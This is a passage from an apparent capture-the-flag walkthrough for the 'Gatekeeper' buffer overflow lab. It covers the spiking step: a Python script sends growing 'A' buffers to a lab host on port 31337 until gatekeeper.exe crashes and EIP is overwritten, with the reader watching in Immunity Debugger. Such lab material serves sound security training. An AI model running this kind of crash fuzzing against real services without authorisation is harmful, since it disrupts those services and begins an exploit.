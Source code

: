 You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runPythonSpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopPythonspiking.png)

We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
